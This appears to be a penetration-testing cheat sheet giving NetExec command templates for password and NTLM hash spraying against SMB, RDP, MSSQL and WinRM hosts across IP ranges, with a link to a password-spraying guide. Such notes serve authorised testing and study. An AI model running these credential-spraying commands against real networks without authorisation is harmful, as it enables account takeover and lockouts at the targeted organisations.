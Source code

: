 # NetExec

## 01 - SMB

Password spraying.

```
$ netexec smb <IP>/<CIDR> -u users.lst -p "<password>" [-d <domain> | --local-auth] [--continue-on-success]
```

Password/NTLM hash spraying without bruteforce.

```
$ netexec smb <IP>/<CIDR> -u users.lst -p passwords.lst [-d <domain> | --local-auth] --no-bruteforce [--continue-on-success]

$ netexec smb <IP>/<CIDR> -u users.lst -H hashes.lst [-d <domain> | --local-auth] --no-bruteforce [--continue-on-success]
```

## 02 - RDP

Password spraying

```
$ netexec rdp <IP>/<CIDR> -u users.lst -p "<password>" [-d <domain> | --local-auth] [--continue-on-success]
```

Password/NTLM hash spraying without bruteforce.

```
$ netexec rdp <IP>/<CIDR> -u users.lst -p passwords.lst [-d <domain> | --local-auth] --no-bruteforce [--continue-on-success]

$ netexec rdp <IP>/<CIDR> -u users.lst -H hashes.lst [-d <domain> | --local-auth] --no-bruteforce [--continue-on-success]
```

## 03 - MSSQL

```
$ netexec mssql <IP>/<CIDR> -u sa -p "<password>" [-d <domain> | --local-auth] [--continue-on-success]

$ netexec mssql <IP>/<CIDR> -u users.lst -p "<password>" [-d <domain> | --local-auth] [--continue-on-success]
```

## 04 - WinRM

```
$ netexec winrm <IP>/<CIDR> -u Administrator -p "<password>" [-d <domain> | --local-auth] [--continue-on-success]

$ netexec winrm <IP>/<CIDR> -u users.lst -p "<password>" [-d <domain> | --local-auth] [--continue-on-success]
```

---
## References

### Hacking Articles

- [Hacking Articles: Comprehensive Guide on Password Spraying Attack](https://www.hackingarticles.in/comprehensive-guide-on-password-spraying-attack/)